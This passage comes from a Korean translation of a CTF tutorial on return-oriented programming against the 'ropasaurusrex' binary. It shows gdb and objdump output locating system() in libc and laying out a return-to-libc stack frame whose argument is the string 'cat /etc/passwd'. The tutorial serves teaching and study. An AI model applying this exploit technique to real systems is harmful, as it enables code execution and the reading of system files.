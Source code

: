 ``` sh
$ gdb --quiet ./ropasaurusrex core
[...]
Program terminated with signal 11, Segmentation fault.
#0  0x43434343 in ?? ()
(gdb) x/s 0x08049530
0x8049530:       "cat /etc/passwd"
```


완벽해요!



### 실행하기
{: #running-it}


이제 `cat /etc/passwd`를 메모리에 썼고, `system()`을 호출해서 저 주소를 가리키면
됩니다. 거의 다 됐습니다. ASLR이 적용되지 않았다면 쉽죠. 실행 파일에는 libc가
링크되어 있습니다.

``` sh
$ ldd ./ropasaurusrex
        linux-gate.so.1 =>  (0xb7703000)
        libc.so.6 => /lib/i686/cmov/libc.so.6 (0xb75aa000)
        /lib/ld-linux.so.2 (0xb7704000)
```


그리고 `libc.so.6`엔 `system()` 함수가 포함되어 있습니다.

``` sh
$ objdump -T /lib/i686/cmov/libc.so.6 | grep system
000f5470 g    DF .text  00000042  GLIBC_2.0   svcerr_systemerr
00039450 g    DF .text  0000007d  GLIBC_PRIVATE __libc_system
00039450  w   DF .text  0000007d  GLIBC_2.0   system
```


디버거를 통해 ropasaurusrex에 로드된 `system()` 주소를 알아낼 수 있습니다.

``` sh
$ gdb --quiet ./ropasaurusrex core
[...]
Program terminated with signal 11, Segmentation fault.
#0  0x43434343 in ?? ()
(gdb) x/x system
0xb7ec2450 <system>:    0x890cec83
```


`system()`은 인자를 하나만 받으므로, 스택 프레임을 만드는 건 쉬운 편입니다.


``` text
+----------------------+
|         ...          | - 다른 함수들이 여기 올 것이므로 상관없음
+----------------------+

+----------------------+ <-- system()의 스택 프레임 시작
|      void *arg       | - 버퍼, 0x08049530
+----------------------+
|   [return address]   | - 'system'이 돌아갈 주소
+----------------------+
|         ...          | - system()이 지역 변수를 위해 사용할 것이므로 상관없음
+----------------------+
```


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump